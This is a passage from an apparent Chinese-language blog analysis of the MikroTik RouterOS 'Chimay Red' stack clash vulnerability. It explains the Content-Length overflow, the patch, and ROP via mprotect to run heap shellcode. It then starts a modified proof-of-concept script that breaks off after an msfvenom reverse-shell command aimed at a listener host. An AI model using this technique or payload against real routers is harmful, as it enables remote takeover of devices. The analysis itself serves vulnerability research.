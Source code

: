 2. 17行的`alloca`函数在栈上开辟存储空间，并被内联汇编为`sub esp, reg`：

    ![][8]

3. 18行调用`istream::read`，向相减后的栈地址处存储长度为content_length的http body。

综上，eax是我们可控的http header content_length值，`sub`操作前并未做相关校验或过滤，而线程的栈空间大小是固定值0x20000，故此处存在整数溢出。意即content_length值大于线程栈空间大小时，相减可使`esp`指向低地址处的其他线程的栈空间，在接收数据后向下溢出其他线程栈空间中保存的返回地址，获取程序控制权，构造逻辑如下：

![][9]

上图中有三点需要注意：

1. 虽然在`alloca`过程中有`content_length_value += 0x10`操作，但Step A和B中两个线程均会根据`Content-Length`进行`alloca`，最后在计算间隔时两者所的加0x10可相互抵消。
2. [StackClash_x86.py](https://github.com/BigNerd95/Chimay-Red/blob/master/StackClash_x86.py)中的`ALIGN_SIZE = 0x10`并不是对齐作用，而是`istream::read`压入的4个参数长度，公式演算可加深大家的理解：

    ```
    thread1_send_header = 0x20000 + thread2_send_header + 0x14 + thread1_send_body
    thread1_content_length + 0x10 = 0x20000 + thread2_content_length + 0x10 + 0x14 + thread1_send_body
    RET_ADDR_SIZE + READ_ARG_SIZE = 0x4 + 0x10
    SRACK + ROP + SKIP = 0x20000 + ROP + (RET_ADDR_SIZE + READ_ARG_SIZE) + (SKIP - 0x14)
    ```

3. Step C thread 1 向下写数据覆盖 thread 2的返回地址后，可继续向下覆盖为构造的ROP；或者将返回地址覆盖为`ppppr`，保留`istream::read`参数后跳转至Step D中thread 2存储的ROP（线程是有自有寄存器的，此脑洞思路可以接力ROP，但thread 1无法和thread 2共享pop出的`istream::read`参数，也就无法从栈上`strncpy`拷贝shellcode至堆上）。

[Release 6.38.5](https://mikrotik.com/download/changelogs#show-tab-tree_1-id-e06d147a0be32029e18acff2f5009096)完成了对此漏洞的修复，首先在调用`Request::readPostData`时指定最大读取长度为0x20000：

![][10]

如果`Content-Length`值小于等于stacksize，使用string类型变量resize长度并接收数据：

![][11]

# 0x03 漏洞利用

既然可以覆盖返回地址，ROP链的构造就老生常谈了，借助之前[CVE-2018-7554](https://larry.ngrep.me/2019/05/01/routeros-smb-rce-cve-2018-7554-analysis/)的利用思路，在vdso中寻找gadget完成对mprotect的调用：

![][12] 

由于程序brk分配的堆地址不变，添加权限后跳转至保存在heap上的http header，执行其中的shellcode即可反弹shell：

![][13]

修改[StackClashPOC.py](https://github.com/BigNerd95/Chimay-Red/blob/master/POCs/StackClashPOC.py)先crash www程序，令其重启初始化环境，发送的ROP为mprotect后跳至固定堆地址执行shellcode，完整代码如下：

```python
#!/usr/bin/env python3

# Mikrotik Chimay Red Stack Clash POC by BigNerd95

# tested on RouterOS 6.38.4 (x86)

# AST_STACKSIZE = 0x20000 (stack frame size per thread)
# ASLR enabled on libs only
# DEP enabled

import socket, time, sys, struct

# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.56.101 LPORT=4444 -b '\x00' -f python -v shellcode
```

[1]: https://wx2.sinaimg.cn/large/ee2fecafly1g4tsndeooyj20km0b5wf3.jpg
[2]: https://wx3.sinaimg.cn/large/ee2fecafly1g4tsndoj2tj20o60a1q4m.jpg
[3]: https://wx3.sinaimg.cn/large/ee2fecafly1g4tsndz8r2j20o506o75d.jpg
[4]: https://wx3.sinaimg.cn/large/ee2fecafly1g4tsneaullj20pq0dk40z.jpg
[5]: https://wx4.sinaimg.cn/large/ee2fecafly1g4tsneora6j20pn0cfjtj.jpg
[6]: https://wx1.sinaimg.cn/large/ee2fecafly1g4tsnf5kk4j20l80b33z8.jpg
[7]: https://wx4.sinaimg.cn/large/ee2fecafly1g4tsnfifx7j211s0gctda.jpg
[8]: https://wx3.sinaimg.cn/large/ee2fecafly1g4tsnfu1u7j20ru0ghta8.jpg
[9]: https://wx3.sinaimg.cn/large/ee2fecafly1g4tsng4r69j20jk0x2dhe.jpg
[10]: https://wx4.sinaimg.cn/large/ee2fecafly1g4tsngf6nvj20k004y3ys.jpg
[11]: https://wx2.sinaimg.cn/large/ee2fecafly1g4tsngq46mj20no0ch752.jpg
[12]: https://wx1.sinaimg.cn/large/ee2fecafly1g4tsnh82qpj20mn0b2gn9.jpg
[13]: https://wx1.sinaimg.cn/large/ee2fecafly1g4tsnhjn6cj20ku091wg2.jpg